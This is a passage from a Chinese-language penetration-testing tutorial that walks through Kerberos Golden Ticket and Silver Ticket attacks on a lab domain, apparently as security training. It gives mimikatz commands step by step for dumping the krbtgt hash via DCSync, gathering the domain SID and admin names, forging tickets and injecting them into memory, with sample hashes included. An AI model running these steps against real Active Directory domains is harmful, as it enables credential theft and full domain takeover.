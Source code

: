 Golder ticket使用krbtgt账户的密码hash值，利用伪造高权限的TGT向KDC要求颁发拥有任意服务访问权限的票据，从而获得域控权限。在域环境中，每个账户的票据都是Krbtgt生成的，当攻击者得到krbtgt hash或AES256值后，我们就可以伪造任一域用户的身份，并用该身份进行访问。伪造Golder ticket利用条件：  
1、krbtgt用户hash或AES256值  
2、域名称  
3、域的SID值  
4、要伪造的管理员名

下面是具体操作：  
Privilege::debug  
执行导出krbtgt hash命令 Lsadump::dcsync /domain:test.com /user:krbtgt  
获得hash值：71204258ec5b715c29f6c8ee40a0c20d  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-7dec8c61d29bbecbc2982ac5cd7e8264.png)  
获取域SID  
Wmic useraccount get name,sid  
S-1-5-21-2273191065-1635484360-3888421177-500  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-573f9089b1e2f5125e385a20fc1b5a53.png)  
查询域管理员账户 net group “domain admins” /domain  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-11a4369ab30a6fd98acc497235fa9868.png)  
获得域名 ipconfig /all  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-b1894107142e476d03324cb1a692cd14.png)  
Kerberos::purge清空票据，然后使用下面命令生成krbtgt的票据  
kerberos::golden /user:Administrator /domain:test.com /sid:S-1-5-21-2273191065-1635484360-3888421177-500 /krbtgt:71204258ec5b715c29f6c8ee40a0c20d /ticket:krbtgt. kiribi  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-65b71453e5053090de6897168611f1b9.png)  
kerberos::ptt krbtgt.kiribi 把生成的票据重新导入内存  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-bbbf5ae5be02d56e450addf018bd6618.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-4eebfb32c8d00f8bc61ede89816a719e.png)

## 4.3 Silver Ticket

Silver Ticket会通过相应的服务账户来伪造TGS，例如LDAP、MSSQL、WinRM、CIFS等，范围相对有限，只能获取对应服务权限，且Silver Ticket是由特定的账户加密的。利用条件：  
1、域名  
2、域SID  
3、目标服务器的FQDN  
4、可利用的服务  
5、服务账号的NTLM Hash  
6、需要伪造的用户名  
下面进行相应的操作：  
先清空系统中的票据 ：  
Kerberos::purge  
使用mimikatz生成伪造的 Silver Ticket ：  
kerberos::golden /user:Administrator /domain:test.com /sid:S-1-5-21-2273191065-1635484360-3888421177-500 /target:WIN-MPPGQR2OWEC.test.com /service:cifs /rc4:fac5d668099409cb6fa223a32ea493b6 /user:c3 /ptt  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-604935ce33d186f944c1aaac7a9be742.png)  
退出mimikatz，查看内存中的票据：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-c312c4eac1857c4da0bd5097fb63753d.png)  
重新访问域控的共享目录：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-8dc4497980ded9fdc047e6c1aed036a8.png)
